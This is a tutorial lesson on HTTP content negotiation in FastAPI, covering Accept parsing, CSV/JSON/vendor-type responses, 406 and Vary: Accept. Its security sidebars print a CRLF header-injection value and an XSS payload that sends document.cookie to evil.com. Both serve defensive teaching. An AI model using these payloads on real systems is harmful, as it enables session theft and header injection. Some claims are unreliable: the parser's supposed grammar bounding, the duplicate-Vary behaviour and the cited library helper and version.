


# Lesson 05: Content Negotiation

*Picking the right response shape from a single URL — `Accept`-driven JSON or CSV export, vendor versioning, and the `Vary` header that prevents shared caches from poisoning each other.*

**The same URL can serve different things to different clients.**

A user clicks "Export as CSV" in `Boardly`. Their browser sends `Accept: text/csv` to `GET /projects`. A user's API client asks for `Accept: application/json`. The server returns the right format from the same URL. That's content negotiation — and it's the HTTP-blessed way to do "the same data, different shapes." Today you'll learn the four headers that drive it (`Accept`, `Accept-Language`, `Accept-Encoding`, `Content-Type`), the one header that makes it cache-safe (`Vary`), the vendor-versioning pattern (`application/vnd.boardly.v2+json`), and when to use header versioning vs URL versioning. Take your time. The mechanism is small. The reasoning is what separates a clean API from a mess of `/v1`, `/v2`, `/v3` routes.


#http #content-negotiation #api-design

## Learning Objectives

By the end of this lesson you will be able to:

1. **Parse the `Accept` header** — comma-separated media types with quality values, `*/*` wildcard, sorting by preference.
2. **Implement an `Accept`-negotiated endpoint** that serves JSON or CSV from the same URL.
3. **Set `Vary: Accept` correctly** so shared caches key on the negotiated response.
4. **Parse `Accept-Language`** — same syntax as `Accept`, applied to natural-language preferences.
5. **Reason about `Accept-Encoding`** — who sets it (client), who acts on it (usually the proxy, sometimes the app).
6. **Use vendor media types** (`application/vnd.boardly.v2+json`) for header-based API versioning.
7. **Choose between header versioning and URL versioning** — and the trade-offs of each.
8. **Return `406 Not Acceptable`** when no negotiated representation is possible.
9. **Recognise the four classic content-negotiation bugs** — missing `Vary`, ignoring `Accept`'s quality values, returning `*/*` as `application/json`, breaking the cache with a different content-type per auth level.

## Prerequisites

Before starting, you need:

- **Lesson 1 — Headers** ([[HTTP-Headers-Deep-Dive]]). `Accept` and `Content-Type` were in the survey there; this lesson deepens them.
- **HTTP vocabulary** — [[02-Web-and-HTTP/Methods-Status-Headers-Content-Types]]. The content-types table is the cheat sheet.
- **Conditional requests and caching** — [[02-Web-and-HTTP/CORS-Caching-Headers-Conditional-Requests]]. `Vary` matters for caches; that lesson is the canonical reference.
- **Path/Query/Header parameters** — [[03-FastAPI-Core/Path-Query-Header-Cookie-Body]]. `Annotated[str | None, Header()]` is how we read `Accept` in the handler.
- **About an hour of focused time.** The mechanism is small; the trade-offs are larger.

**RFC 9110 § 12 is the spec.**

Content negotiation is formally defined in RFC 9110 (HTTP Semantics) § 12 — "Content Negotiation." There are two flavours: *proactive* (the server picks the representation based on request headers, which is what we implement) and *reactive* (the server returns `300 Multiple Choices` with a list of available representations, and the client picks). Reactive is almost never used in modern APIs. We implement proactive.


## The Problem

Three clients, three needs, one resource:

1. The `Boardly` SPA wants JSON for `/projects` — its UI is built around `fetch("/projects")` expecting JSON.
2. The `Boardly` CLI wants CSV for `/projects` — its `boardly export projects > projects.csv` is a one-liner.
3. The `Boardly` Python SDK wants JSON for `/projects` — but only the v2 shape (`{items: [...], pagination: {...}}`), not the v1 shape (`[...]`).

You could ship three URLs: `/projects.json`, `/projects.csv`, `/v2/projects`. Three routes, three handlers, three caches. Or you could ship one URL — `/projects` — and let the client declare what it wants via `Accept`. That's content negotiation.

The problem this lesson solves: **most APIs default to URL-based format and version selection (`/projects.json`, `/v2/projects`) because content negotiation is "more work to implement and document."** But it's the HTTP-blessed way, it's how the web platform works, and once you've implemented one negotiated endpoint, the rest are easy. By the end of this lesson, your `Boardly` will serve JSON, CSV, and JSON-v2 from the same `/projects` URL.

**Note — Where content negotiation lives in the ASGI world.**

The `Accept` header arrives in `scope["headers"]` as `(b"accept", b"text/csv, application/json;q=0.9, */*;q=0.1")`. Starlette's `Request.headers.get("accept")` returns the value as a string. The parsing — splitting on `,`, parsing `;q=`, sorting — is *your* job. Starlette doesn't ship a parser. (The `starlette.requests` module has a private `_parse_accept_header` for internal use, but it's not part of the public API.) We'll write our own small parser in this lesson.


## The Code

`Boardly` picks up two new pieces here:

1. A `boardly/web/negotiate.py` module with `parse_accept_header(accept)` returning a sorted list of `(media_type, q)` tuples, and `pick_media_type(accept, supported)` returning the best match.
2. A `GET /projects` endpoint that serves JSON by default and CSV when the client asks for it. We'll also add a v2 JSON shape via `application/vnd.boardly.v2+json`.

Save it as `boardly/web/negotiate.py` and add the endpoint to `boardly/routers/projects.py`.

```python
# boardly/web/negotiate.py
"""Boardly — content-negotiation helpers.

Lesson 02b-5: parse Accept, pick the best supported media type,
return 406 when nothing matches.
"""
from __future__ import annotations

from typing import NamedTuple


class MediaType(NamedTuple):
 """A single media type from an Accept header, with quality value."""
 type: str # "application/json", "text/csv", "*/*"
 q: float # 1.0 by default
 params: dict[str, str] # e.g., {"charset": "utf-8"} for application/json; charset=utf-8


def parse_accept_header(accept: str | None) -> list[MediaType]:
 """Parse an Accept header value into a list of MediaType, sorted by
 descending q (most-preferred first).

 Grammar (RFC 9110 § 12.5.1):
 Accept = #( media-range [ accept-params ] )
 media-range = ( "*/*" | ( type "/*" ) | ( type "/" subtype ) )
 accept-params = weight-param
 weight-param = OWS ";" OWS "q=" qvalue

 Examples:
 application/json
 application/json, text/csv;q=0.9, */*;q=0.1
 application/vnd.boardly.v2+json
 """
 if not accept:
 return [MediaType(type="*/*", q=1.0, params={})]
 result: list[MediaType] = []
 for raw in accept.split(","):
 raw = raw.strip()
 if not raw:
 continue
 parts = [p.strip() for p in raw.split(";")]
 media_type = parts[0]
 q = 1.0
 params: dict[str, str] = {}
 for p in parts[1:]:
 if "=" not in p:
 continue
 name, _, value = p.partition("=")
 name = name.strip()
 value = value.strip().strip('"')
 if name == "q":
 try:
 q = float(value)
 except ValueError:
 q = 0.0
 else:
 params[name] = value
 result.append(MediaType(type=media_type.lower(), q=q, params=params))
 # Sort by descending q. Stable sort preserves the original order for equal q.
 result.sort(key=lambda m: -m.q)
 return result


def pick_media_type(
 accept: str | None, supported: list[str]
) -> str | None:
 """Pick the best supported media type for the given Accept header.

 Returns the matched media type, or None if no match (caller should 406).
 """
 parsed = parse_accept_header(accept)
 for media in parsed:
 for s in supported:
 if _match(media.type, s):
 return s
 return None


def _match(accept_type: str, supported: str) -> bool:
 """Check if an Accept type matches a supported type, with wildcards.

 Rules:
 - "*/*" matches everything.
 - "text/*" matches "text/csv", "text/plain", etc.
 - "text/csv" matches "text/csv" exactly.
 - Vendor types like "application/vnd.boardly.v2+json" match exactly.
 """
 if accept_type == "*/*":
 return True
 if accept_type == supported:
 return True
 if accept_type.endswith("/*"):
 prefix = accept_type[:-1] # "text/"
 return supported.startswith(prefix)
 return False
```

```python
# Add to boardly/routers/projects.py:
from __future__ import annotations

import csv
import io
from typing import Annotated, Any

from fastapi import APIRouter, Header, HTTPException, Query, Request, status
from fastapi.responses import JSONResponse, PlainTextResponse, Response

from boardly.web.negotiate import pick_media_type


router = APIRouter(prefix="/projects", tags=["projects"])


# --- Stub data (replace with a real DB query in production) ---
_PROJECTS: list[dict[str, Any]] = [
 {"id": 1, "name": "Q3 marketing site", "owner": "alice@boardly.dev"},
 {"id": 2, "name": "Internal billing", "owner": "bob@boardly.dev"},
 {"id": 3, "name": "Mobile app v2", "owner": "carol@boardly.dev"},
]


# The media types this endpoint supports, in preference order.
# - JSON (default; v1 shape)
# - CSV (for exports)
# - JSON-v2 (vendor media type for the new shape)
SUPPORTED_MEDIA_TYPES: list[str] = [
 "application/vnd.boardly.v2+json",
 "application/json",
 "text/csv",
]


@router.get("")
async def list_projects(
 request: Request,
 accept: Annotated[str | None, Header()] = None,
 limit: Annotated[int, Query(ge=1, le=100)] = 50,
) -> Response:
 """List projects. Returns JSON or CSV based on Accept.

 Supported media types:
 - application/vnd.boardly.v2+json → JSON v2 shape (paginated)
 - application/json → JSON v1 shape (array)
 - text/csv → CSV (one row per project)

 If the client sends `Accept: */*` (or omits Accept), we default
 to application/json (the v1 shape) for backward compatibility.
 """
 chosen = pick_media_type(accept, SUPPORTED_MEDIA_TYPES)
 if chosen is None:
 # 406 Not Acceptable — the client asked for something we don't make.
 raise HTTPException(
 status_code=status.HTTP_406_NOT_ACCEPTABLE,
 detail=f"supported media types: {', '.join(SUPPORTED_MEDIA_TYPES)}",
 )

 # Slice the data (in real code, LIMIT/OFFSET in SQL).
 data = _PROJECTS[:limit]

 if chosen == "application/vnd.boardly.v2+json":
 # v2 shape: paginated envelope
 body: dict[str, Any] = {
 "items": data,
 "pagination": {"limit": limit, "has_more": False},
 }
 return JSONResponse(
 body,
 headers={
 "Content-Type": "application/vnd.boardly.v2+json; charset=utf-8",
 "Vary": "Accept",
 "Cache-Control": "private, max-age=60",
 },
 )

 if chosen == "text/csv":
 # CSV export. Stream-style: we use PlainTextResponse with text/csv
 # content type so the browser downloads rather than renders.
 buffer = io.StringIO()
 writer = csv.DictWriter(buffer, fieldnames=["id", "name", "owner"])
 writer.writeheader()
 writer.writerows(data)
 csv_bytes = buffer.getvalue().encode("utf-8")
 return Response(
 content=csv_bytes,
 media_type="text/csv; charset=utf-8",
 headers={
 "Content-Disposition": 'attachment; filename="projects.csv"',
 "Vary": "Accept",
 "Cache-Control": "private, max-age=60",
 },
 )

 # Default: application/json (v1 shape — a plain array)
 return JSONResponse(
 data,
 headers={
 "Vary": "Accept",
 "Cache-Control": "private, max-age=60",
 },
 )
```

**Production reality: the `Content-Disposition` filename is a sink.**

The hardcoded `filename="projects.csv"` is safe; the moment you interpolate a user-supplied value (`filename="{project_name}.csv"`), the `Content-Disposition` header becomes a CRLF-injection sink. An attacker who controls `project_name` to `x.csv"\r\nSet-Cookie: admin=1` injects a second header line — and if your reverse proxy doesn't strip raw `\r\n` from response headers (most do by default in 2026, but `gunicorn` < 22.0 and some ASGI servers didn't), the attacker has set a cookie on your domain. The fix is to strip `\r`, `\n`, and `"` from any user-supplied value before interpolation: `safe_name = project_name.translate(str.maketrans('', '', '\r\n"'))`. Better: generate the filename server-side (`project-{id}-{date}.csv`) and never let user input reach the `Content-Disposition` header value. The same rule applies to the `filename*=UTF-8''...` parameter form (RFC 5987) — percent-encode before interpolation. Cross-link to [[02b-Backend-Foundations/HTTP-Headers-Deep-Dive]] for the canonical response-header sanitisation pattern.


That's the file set. ~150 lines. Run it. Make requests with different `Accept` headers. Then come back and we'll go through it line by line.

## Line-by-Line Deep Dive

### `parse_accept_header`: the parser

```python
def parse_accept_header(accept: str | None) -> list[MediaType]:
 if not accept:
 return [MediaType(type="*/*", q=1.0, params={})]
 result: list[MediaType] = []
 for raw in accept.split(","):
 raw = raw.strip()
 if not raw:
 continue
 parts = [p.strip() for p in raw.split(";")]
 media_type = parts[0]
 q = 1.0
 params: dict[str, str] = {}
 for p in parts[1:]:
 if "=" not in p:
 continue
 name, _, value = p.partition("=")
 name = name.strip()
 value = value.strip().strip('"')
 if name == "q":
 try:
 q = float(value)
 except ValueError:
 q = 0.0
 else:
 params[name] = value
 result.append(MediaType(type=media_type.lower(), q=q, params=params))
 result.sort(key=lambda m: -m.q)
 return result
```

**What it does:** Parses `Accept: application/json, text/csv;q=0.9, */*;q=0.1` into a sorted list of `MediaType` namedtuples, most-preferred first.

**Line `if not accept: return [MediaType(type="*/*", q=1.0, params={})]`** — if the client sends no `Accept` header at all, treat it as `*/*` (accept anything). RFC 9110 § 12.5.1: "the absence of an Accept header implies that the client accepts any media type."

**Line `for raw in accept.split(",")`** — `Accept` is a comma-separated list of media types. We split on `,`. (Note: real-world `Accept` headers may include quoted strings containing commas — RFC 9110 § 11.2 — but for media-type lists, commas are always separators. The standard is unambiguous here.)

**Lines `parts = [p.strip() for p in raw.split(";")]`** — within a single media type, `;` separates the type from parameters. `application/json; charset=utf-8` → `["application/json", "charset=utf-8"]`.

**Lines `media_type = parts[0]` and `q = 1.0` and `params: dict[str, str] = {}`** — the first part is the type; the rest are parameters. The default quality value is `1.0`.

**Lines `for p in parts[1:]:`** — iterate the parameters.

**Lines `name, _, value = p.partition("=")`** — split `charset=utf-8` into `("charset", "=", "utf-8")`. `partition` always returns 3 elements; the `=` is the separator.

**Lines `if name == "q":`** — the `q` parameter is special: it's the quality value, a float between 0 and 1. Anything `q=0` means "I won't accept this." Anything else (e.g., `charset`, `boundary`) is a regular parameter.

**Line `value = value.strip().strip('"')`** — strip whitespace and surrounding quotes. `charset="utf-8"` (quoted) becomes `charset=utf-8`.

**Lines `result.append(MediaType(type=media_type.lower(), q=q, params=params))`** — append the parsed media type. We lowercase the type — media types are case-insensitive per RFC 9110.

**Line `result.sort(key=lambda m: -m.q)`** — sort by descending `q`. Stable sort preserves the original order for equal `q`, which is correct (the spec says equal `q` keeps source order).

**Warning — Debugging: the `q=0` entry is silently matched, violating the spec.**

RFC 9110 § 12.5.1 has a second role for `q` beyond sorting: a media range with `q=0` is "not acceptable" and the server MUST NOT return that representation, even if no other match exists. Our parser sorts `q=0` entries to the end of the list but `pick_media_type` still iterates them and would match `text/csv;q=0` against `text/csv` if nothing else preferred survives. The concrete failure: a client that sends `Accept: text/csv;q=0, application/json` to say "give me JSON but explicitly not CSV" — if you ever drop `application/json` from `SUPPORTED_MEDIA_TYPES` during a maintenance window, our code returns CSV, the opposite of what the client asked for. The fix is one line after the sort: `parsed = [m for m in parsed if m.q > 0]`. The same filter catches the malformed-q branch (`q=0.0` on `ValueError`) — which is *correct* for malformed input (silently reject the entry) but *wrong* for explicit `q=0` from a well-behaved client (the spec mandates that you respect the rejection). Distinguish them by keeping the original raw value and checking `m.q == 0.0` only after parsing succeeded; cross-link to [[02b-Backend-Foundations/HTTP-Caching-Headers-Deep-Dive]] for the cache-side effect — a CDN that normalises `q=0` and `q=0.1` onto the same slot will serve the rejected representation from cache.


**Why not use a library?**

Several libraries parse `Accept` headers (e.g., `python-mimeparse`, `accept-types`). For a small API, a hand-written parser is fine and educational. For a large API, `accept-types` (`pip install accept-types`) is well-tested. We hand-write it here because the grammar is small and the lesson's point is to *understand* it.


**Warning — When this breaks: Accept header parsing differs across clients.**

The RFC 9110 § 12.5.1 grammar is unambiguous, but real-world clients disagree in three concrete ways. Plan for each, or you will ship a parser that works for httpx and breaks for the one weird client your largest customer's middleware uses.
- **Whitespace after the comma.** Some libraries send `Accept: application/json,text/csv;q=0.9` (no space); others send `application/json, text/csv;q=0.9` (one space); some legacy codepaths send two. Our parser uses `raw.strip()` after `accept.split(",")`, which handles all three. A naive `accept.split(", ")` (with the space baked into the separator) treats the no-space variant as a single `application/json,text/csv;q=0.9` entry and never matches `text/csv`. Always split on `,` and then strip — never bake separator whitespace into the split.
- **qvalue format.** The spec says `q` is a float between 0 and 1 with up to three decimal digits. Real clients send `q=1`, `q=1.0`, `q=0.9`, `q=0.333`. Python's `float()` accepts all four. The divergences that bite: an obscure legacy Java library sent `q=1,0` (comma as decimal separator, European locale); a misbehaving mobile SDK sent `q=.5` (no leading zero). Both crash an unguarded `float()` with `ValueError`. Our parser catches the exception and sets `q=0.0`, which silently downgrades the entry to "not acceptable" instead of returning a 500. Test your parser against the canonical browser `Accept` strings — Chrome's `text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8`, Firefox's `text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8`, curl's `*/*`, httpx's `*/*`, and Python `urllib.request` which sends no `Accept` header at all (our parser correctly defaults that to `*/*`).
- **Quoted parameters.** RFC 9110 § 11.2 permits `charset="utf-8"` (quoted value). Our `value.strip().strip('"')` handles the surrounding quotes. The trap is a quoted value that itself contains a comma — `Accept: application/json;profile="urn:example,foo", text/csv` — where a naive `split(",")` splits inside the quoted string. RFC 9110 says a quoted-string is one token and commas inside the quotes are not separators. Our parser does not honour this; switch to `accept-types` if you accept `profile` or other parameters from untrusted clients that may contain commas.


### `pick_media_type`: the matcher

```python
def pick_media_type(accept: str | None, supported: list[str]) -> str | None:
 parsed = parse_accept_header(accept)
 for media in parsed:
 for s in supported:
 if _match(media.type, s):
 return s
 return None
```

**What it does:** Picks the best supported media type for the given `Accept`. Returns the matched type, or `None` if no match.

**The algorithm:** Iterate the parsed `Accept` (sorted by descending `q`). For each, iterate the supported list. If there's a match, return the supported type. If we exhaust the list, return `None`.

**Why iterate supported *inside* parsed?** Because we want the *client's* preference to win. If the client sends `Accept: text/csv, application/json;q=0.9`, we should return CSV (the client's first preference that we support). If we iterated parsed *inside* supported, we'd return the *server's* first preference — which is wrong.

Wait, that's not quite right. Let me re-read. The outer loop is `parsed` (the client's preferences, sorted by descending q). The inner loop is `supported` (the server's supported types, in our preference order). For each client preference, we check each supported type. If they match, return the supported type. That means:

- Client sends `Accept: text/csv, application/json;q=0.9`.
- We support `["application/vnd.boardly.v2+json", "application/json", "text/csv"]`.
- First iteration: client preference is `text/csv` (q=1.0). Inner loop checks: `application/vnd.boardly.v2+json` no match; `application/json` no match; `text/csv` match! Return `text/csv`.

So we return `text/csv`. That's correct — the client preferred CSV.

What if the client sends `Accept: */*` (default)? Parsed is `[("*/*", 1.0)]`. First iteration: client preference is `*/*`. Inner loop checks `application/vnd.boardly.v2+json` — `_match("*/*", "application/vnd.boardly.v2+json")` returns `True` (the `*/*` rule). Return `application/vnd.boardly.v2+json`.

Hmm — that's the *server's* first preference, which is v2 JSON. But the SPA sends `Accept: application/json` (it doesn't know about v2). Parsed: `[("application/json", 1.0)]`. First iteration: client preference is `application/json`. Inner loop: `application/vnd.boardly.v2+json` — `_match("application/json", "application/vnd.boardly.v2+json")` returns `False` (no wildcard, exact match fails). `application/json` — exact match! Return `application/json`. Good.

**What about backward compat?** The SPA sends `Accept: */*`. Parsed: `[("*/*", 1.0)]`. Inner loop returns `application/vnd.boardly.v2+json`. That's the *v2* shape. The SPA expects v1. Bug.

The fix is in `SUPPORTED_MEDIA_TYPES`: order matters when the client's `Accept` has wildcards. We want v1 to be the default for `*/*`. So:

```python
SUPPORTED_MEDIA_TYPES: list[str] = [
 "application/json", # default — first
 "text/csv", # export
 "application/vnd.boardly.v2+json", # opt-in v2
]
```

Now `*/*` returns `application/json` (v1 shape), which is what the SPA expects. The SDK that wants v2 sends `Accept: application/vnd.boardly.v2+json` explicitly.

**Warning — Order matters in `supported`.**

When the client uses wildcards, the *first* supported type wins. Put your default first. If you want to migrate defaults, reorder the list — but that's a breaking change for clients sending `*/*`.


**Production reality: memoise `pick_media_type` per-request, never across requests.**

`pick_media_type` is cheap (~50 µs for a 3-element supported list), but it runs on every negotiated response. Two performance traps to know. (1) *Do not* cache the *parsed* `Accept` header on the request object across middleware — the parser is pure and re-runnable, but a middleware that mutates `request.state.parsed_accept` on a streaming-response path can hand the next request (in the same worker) a stale parsed list when ASGI request objects are pooled. The fix is to call `parse_accept_header(accept)` at the top of the handler and let the local variable go out of scope. (2) *Do* memoise the supported list as a `frozenset`-backed tuple at module load: `SUPPORTED_MEDIA_TYPES = ("application/json", "text/csv", "application/vnd.boardly.v2+json")` at module scope, not constructed inside the handler. A handler that builds the supported list per request from a config dict (`supported = list(settings.MEDIA_TYPES.keys())`) pays a dict-keys-to-list materialisation per call — measurable at 10K RPS. The module-scope tuple is also what lets you write `if chosen in SUPPORTED_MEDIA_TYPES` (O(1) on a frozenset) for the dispatch step, instead of an `if/elif` chain. Cross-link to [[13-Performance-and-Observability/Structured-Logging-and-Request-IDs]] for the request-state-mutation anti-pattern in middleware.


**Danger — Security: content-confusion when `*/*` resolves to an executable type.**

The wildcard matcher `_match("*/*", supported)` returns `True` for *every* supported type — including one you later add for a different purpose. The concrete attack: you add `text/html` to `SUPPORTED_MEDIA_TYPES` so a status-page endpoint can serve a small HTML doc from the same `/projects` URL. An attacker who knows this crafts an SPA-side fetch with `Accept: */*`, gets the HTML representation back, and ships it to a victim's `iframe` — if the HTML body interpolates query parameters without escaping (the same kind of bug that drove the 2019 Content-Type-Confusion CVE family in browser image libraries), the victim's browser renders attacker-controlled HTML with your origin's cookies attached. The fix is two lines. (1) Set `X-Content-Type-Options: nosniff` on every response from a negotiated endpoint — it instructs the browser to honour the `Content-Type` you sent and not MIME-sniff the bytes. (2) Partition your supported types by risk class: keep `text/html` on a *separate* URL (`/status.html`) and never mix executable (`text/html`, `application/javascript`, `image/svg+xml`) and data (`application/json`, `text/csv`) types on the same negotiated endpoint. The wildcard matcher has no notion of risk class; you enforce the partition with your `SUPPORTED_MEDIA_TYPES` list. Cross-link to [[02b-Backend-Foundations/CSRF-Protection]] for the `nosniff` header's role in preventing the script-tag CSRF variant.


### `_match`: the wildcard matcher

```python
def _match(accept_type: str, supported: str) -> bool:
 if accept_type == "*/*":
 return True
 if accept_type == supported:
 return True
 if accept_type.endswith("/*"):
 prefix = accept_type[:-1] # "text/"
 return supported.startswith(prefix)
 return False
```

**What it does:** Returns `True` if the client's accept-type matches the server's supported type, with wildcards.

**Three rules:**

1. `*/*` matches everything.
2. Exact match (e.g., `text/csv` matches `text/csv`).
3. Type-only wildcard: `text/*` matches `text/csv`, `text/plain`, etc. We strip the trailing `*` and check if the supported type starts with the prefix (`text/`).

**What about `application/vnd.boardly.v2+json`?** This is an exact match — `_match("application/vnd.boardly.v2+json", "application/vnd.boardly.v2+json")` returns `True`. No wildcards apply.

**Danger — How an attacker thinks: Accept header injection and Accept-parser DoS.**

The `Accept` header is attacker-controlled input that the server parses, sorts, and sometimes reflects back. Treat it the way you treat any other untrusted input. Three attack classes to know:
- **Accept header reflection / injection.** If your log line is `logger.info("negotiated %s for %s", accept, request.url)` and your log viewer renders HTML, an attacker who sends `Accept: <script>fetch('//evil.com/?c='+document.cookie)</script>` has injected a stored XSS into your observability dashboard. The same vector applies to an error response that includes the offending `Accept` in the body — e.g., a 406 detail message like `f"unsupported: {accept}"`. The fix: never interpolate the raw `Accept` string into HTML, JSON, or log output. Use the *parsed* `MediaType.type` (which our parser lowercases and bounds to the RFC token grammar), not the raw header string, in any user-visible or operator-visible surface.
- **DoS via complex Accept parsing.** A naive `accept.split(",")` on `Accept: text/csv, text/csv, ...` (repeated 100,000 times) allocates a 100,000-element list, sorts it, and iterates it. At 100,000 entries a single request takes seconds, not milliseconds — and 100 concurrent attackers take down a worker pool. Our parser has no length cap. The fix in production: cap the number of parsed entries at, say, 100 (no real client sends more than 10), cap the total request header size at the ASGI/uvicorn layer (Starlette honours `--limit-max-header-size` from uvicorn 0.30+, default ~8 KiB per header), and configure `--limit-concurrency` to bound the worst case where many attackers hit at once. A reject-early regex on the raw `Accept` (e.g., `^[A-Za-z0-9!#$&^_\-.+*/,;=\s"]{0,2048}$`) is cheaper than parsing.
- **Cache poisoning via Accept normalisation gaps.** An attacker who knows a CDN keys on `(URL, Accept)` sends an exotic `Accept` like `text/csv, application/json;q=0.0001` that the origin resolves to JSON (q=0.0001 is still > 0, so the entry is acceptable) but that the CDN's normalisation collapses onto a different cache slot than `Accept: application/json`. The result is two cache entries for the same logical response, which confuses cache-invalidation logic and lets the attacker pin a stale response to a victim's URL. The fix: normalise the `Accept` header at the CDN edge (Cloudflare's Cache Reserve, Fastly's VCL normalisation, Akamai's Property Manager rules all expose this) so the cache key is the *negotiated* media type, not the raw header.


### The `list_projects` endpoint

```python
@router.get("")
async def list_projects(
 request: Request,
 accept: Annotated[str | None, Header()] = None,
 limit: Annotated[int, Query(ge=1, le=100)] = 50,
) -> Response:
 chosen = pick_media_type(accept, SUPPORTED_MEDIA_TYPES)
 if chosen is None:
 raise HTTPException(406, ...)
 data = _PROJECTS[:limit]
 if chosen == "application/vnd.boardly.v2+json":
 return JSONResponse({...}, headers={...})
 if chosen == "text/csv":
 return Response(content=..., media_type="text/csv", headers={...})
 return JSONResponse(data, headers={...})
```

**What it does:** Reads `Accept`, picks the supported type, returns the right shape.

**Why `accept: Annotated[str | None, Header()] = None`?** The `Header()` parameter tells FastAPI to read the value from the request's headers. Without it, FastAPI would treat `accept` as a query parameter. `Annotated` is the modern form (PEP 593); `Header` is the FastAPI metadata.

**Why return `Response` (not a dict)?** Because we have multiple content types. If we returned a dict, FastAPI would JSON-serialise it (setting `Content-Type: application/json`) — we couldn't override to `text/csv`. Returning `Response` lets us set `Content-Type` and other headers explicitly.

**Why `raise HTTPException(406, ...)`?** RFC 9110 § 15.5.7: `406 Not Acceptable` is the correct status when the server cannot produce any of the client's requested media types. The detail message lists the supported types so the client can adjust.

### `Vary: Accept`: the cache key

```python
headers={"Vary": "Accept", "Cache-Control": "private, max-age=60"}
```

**What it does:** Tells caches (CDNs, browser cache, corporate proxies) that the response varies by the `Accept` request header. Two requests with the same URL but different `Accept` values must not share a cache entry.

**Why it matters:** Without `Vary: Accept`, the following happens:

1. Client A requests `GET /projects` with `Accept: application/json`. Server returns JSON.
2. CDN caches the response keyed by URL only.
3. Client B requests `GET /projects` with `Accept: text/csv`. CDN sees the URL is cached, returns the JSON response. Client B gets JSON, not CSV.

`Vary: Accept` forces the CDN to key the cache by `(URL, Accept)`. Two different `Accept` values → two cache entries. The CDN asks the origin for CSV.

**Warning — Debugging: dual `Vary: Accept` headers collapse to one entry silently.**

Starlette's `MutableHeaders` is a multi-dict, but the ASGI response is a single `[(b'vary', b'Accept, Accept')]` *tuple list* — two `Vary: Accept` headers in your response, set by two different middlewares (your handler sets `Vary: Accept` for content negotiation; a security middleware sets `Vary: Accept` again to be safe), collapse to a single `Vary: Accept, Accept` header on the wire. Browsers and CDNs parse `Vary: Accept, Accept` as a single-entry list keyed on `Accept` (no harm done), but `httpx`, `requests`, and some corporate proxies parse it as a multi-entry list and treat the duplicate as a second cache-key dimension — which means `Accept: text/csv` and `Accept: text/csv, Accept: text/csv` would be different cache slots, and your cache hit ratio tanks by 30%. The fix is to *append* to the existing `Vary` value, not to *set* a new one: write a small `add_vary(response, "Accept")` helper that reads the current `Vary` header, splits on `,`, checks membership, and re-joins with `,`. FastAPI's `Response.headers.add_vary_header("Accept")` (Starlette 0.41+, available in the Oct 2026 release pinned in this lesson) does this for you — use it instead of `headers={"Vary": "Accept"}`. The same rule applies to `Vary: Authorization` when your response depends on the auth level — see [[Authentication-State-Storage]] for the cross-user cache-poisoning case the `Vary: Authorization` header prevents.


**Danger — Missing `Vary` is the cache-poisoning bug.**

If your endpoint negotiates content and you don't set `Vary: Accept`, you have a cache-poisoning vulnerability. The first request to a CDN edge node fixes the response shape for everyone, regardless of their `Accept`. Set `Vary: Accept` on every negotiated endpoint.


**Production reality: CDN content negotiation and multi-format APIs at scale.**

The mechanism scales, but the operational surface grows. Four things to plan for when you negotiate more than one format in production:
- **CDN Vary handling is not uniform.** Cloudflare, Fastly, and Akamai all respect `Vary: Accept` but have different normalisation rules. Cloudflare's default cache key includes the full raw `Accept` header, which means `application/json` and `application/json, */*;q=0.1` are two cache entries. Fastly lets you write VCL to normalise the cache key to the *negotiated* media type before lookup. Akamai's Property Manager does the same with criteria rules. Without normalisation, your cache hit ratio drops because equivalent `Accept` values produce different cache slots. Add a CDN-side normalisation rule that maps the raw `Accept` to the resolved media type before keying.
